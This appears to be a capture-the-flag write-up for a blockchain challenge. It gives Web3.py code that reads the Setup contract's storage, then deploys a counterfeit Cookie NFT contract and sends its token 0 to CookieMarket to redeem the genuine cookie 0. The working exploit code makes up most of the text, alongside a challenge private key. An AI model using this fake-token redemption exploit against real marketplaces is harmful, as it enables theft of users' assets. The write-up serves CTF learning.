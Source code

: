 We used `panoramix` on the `Setup` contract to figure out that slot 0 corresponds to the `cookie` contract and slot 1 corresponds to the `CookieMarket` contract. Additionally, we decided to use [Web3.py](https://web3py.readthedocs.io/en/v5/) to interact with the private blockchain.

First, we import libraries and setup the provider and account:

```python
from web3 import Web3, HTTPProvider
import solcx
from eth_utils.address import to_checksum_address

rpc = 'http://challs.htsp.ro:9003/9afa928d-8629-45c5-843c-700d28758662'
setup_contract = '0x74661A8a825BB6B819c1753Bf991A0ECAcBA971F'
priv_key = '0xa0e7b61b9b2750c6f48ac66076cb02c8cef39706a4039e38195ed256be9a6985'

w3 = Web3(HTTPProvider(rpc))

account = w3.eth.account.from_key(priv_key)
```

Then, we access slots 0 and 1 of the `Setup` contract to be able to interact with the `cookie` contract and `CookieMarket` contracts respectivly.

```python
cookie_contract_addr = to_checksum_address(w3.eth.get_storage_at(setup_contract, 0)[-20:])
cookie_market_contract_addr = to_checksum_address(w3.eth.get_storage_at(setup_contract, 1)[-20:])

compiled_cookie = solcx.compile_files(
    ["cookie.sol"],
    output_values=["abi", "bin"]
)['cookie.sol:Cookie']

cookie_market_abi = solcx.compile_files(
    ["CookieMarket.sol"],
    output_values=["abi", "bin"]
)['CookieMarket.sol:CookieMarket']['abi']

Cookie = w3.eth.contract(address=cookie_contract_addr, abi=compiled_cookie['abi'], bytecode=compiled_cookie['bin'])

CookieMarket = w3.eth.contract(address=cookie_market_contract_addr, abi=cookie_market_abi)
```

Then, we deploy another `cookie` contract and mint cookie 0:

```python
fake_cookie_addr_tx_hash = Cookie.constructor().transact()
tx_receipt = w3.eth.wait_for_transaction_receipt(fake_cookie_addr_tx_hash)
FakeCookie = w3.eth.contract(address=tx_receipt['contractAddress'], abi=compiled_cookie['abi'])

FakeCookie.functions.mintcookie().transact({'from': account.address})
```

Then, we transfer the fake cookie 0 to the `CookieMarket` contract and redeem the real cookie 0.

```python
FakeCookie.functions.approve(cookie_market_contract_addr, 0).transact({'from': account.address})
FakeCookie.functions.safeTransferFrom(account.address, cookie_market_contract_addr, 0).transact({'from': account.address})

CookieMarket.functions.redeemcookies(0).transact({'from': account.address})
```
